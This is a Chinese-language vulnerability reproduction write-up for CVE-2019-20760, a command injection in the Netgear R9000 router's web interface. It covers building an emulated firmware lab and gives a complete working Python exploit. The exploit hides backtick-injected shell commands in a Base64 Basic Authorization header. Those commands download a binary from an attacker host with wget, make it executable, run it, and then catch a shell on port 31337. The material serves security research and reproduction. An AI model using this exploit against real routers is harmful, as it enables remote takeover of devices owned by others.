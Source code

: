# Netgear R9000 命令注入漏洞（CVE-2019-20760）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- uhttpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/R9000-V1.0.4.26.img"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/cgi-bin/

# 漏洞利用
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

from pwn import *
from threading import Thread
import requests
import base64

cmd  = 'admin:'
cmd += '`'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'
cmd += '`'

assert(len(cmd) < 255)

cmd_b64 = base64.b64encode(cmd.encode()).decode()

headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1",
    "Authorization": "Basic " + cmd_b64
}

def attack():
    try:
        requests.get("http://192.168.2.2/cgi-bin/", headers=headers, timeout=1)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- <https://nvd.nist.gov/vuln/detail/CVE-2019-20760>
- <https://xz.aliyun.com/t/9125>
